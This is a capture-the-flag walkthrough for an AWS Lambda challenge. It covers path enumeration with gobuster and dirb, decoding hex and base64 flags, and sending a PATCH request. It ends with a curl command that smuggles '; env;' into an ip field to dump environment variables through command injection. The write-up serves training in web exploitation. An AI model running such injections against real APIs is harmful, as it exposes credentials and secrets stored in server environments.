 ## A3 - Lambda Challenge

### Flag 1
**Main goal:** Perform directory enumeration and find /api/version or /version paths

**Expected skills:** 
- Execute Web Application enumeration
- identify and decode hexadecimal

1. First step is to use an enumeration tool (gobuster, dirbuster, burp suit or other) with a dictionary of common paths, in the example bellow I used gobuster with a common dictionary on kali
   
    `gobuster dir -u https://5xjz0o4hak.execute-api.sa-east-1.amazonaws.com/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 10`

   ![img_6.png](images/img_6.png)

Other option could be dirb tool:

`dirb https://5xjz0o4hak.execute-api.sa-east-1.amazonaws.com/`

   ![img_7.png](images/img_7.png)


2. After accessing the found url, it is possible to see a message em hexadecimal

   ![img_8.png](images/img_8.png)


3. Use a hex converter to get flag 1

   ![img_9.png](images/img_9.png)

---

### Flag 2
**Main goal:** Access the documentation endpoint at /api/lkasjdlksjdflkj
**Expected skills:**
- Use tools to perform http requests (curl, burp suite, postman)
- have knowledge of the different methods for http requests

1. To resolve this challenge, it is necessary to send an HTTP request with method PATCH to the documentation endpoint
   
   - Using postman
     ![img_10.png](images/img_10.png)
   - Using curl
     ![img_11.png](images/img_11.png)
     
2. As the response is base64 encoded, it is necessary to decode it to get the flag, as shown below:
   ![img_12.png](images/img_12.png)
   

   ![img_13.png](images/img_13.png)

---

### Flag 3
**Main goal:** Exploit cmd injection vulnerability and get the flag in lambda environment
**Expected skills:**
- Use tools to perform http requests (curl, burp suite, postman)
- Explore cmd injection vulnerabilities
- Retrieve data from environment variables in lambda instances

1. There are two hidden api paths in the documentation, interacting with both it is possible to find a command execution on /api/oratoroeuaroupadoreideroma/status. In order to get the final flag, it is necessary to send a malicious POST request with command injection and read the environment variables, as demonstrated below:
   
   ![img_14.png](images/img_14.png)

   - Using curl
```shell
curl --location --request POST 'https://5xjz0o4hak.execute-api.sa-east-1.amazonaws.com/api/oratoroeuaroupadoreideroma/status' --header 'Content-Type: text/plain' --data-raw '{"ip": "192.168.15.1; env;"}' --silent | egrep -i flag
```


 


 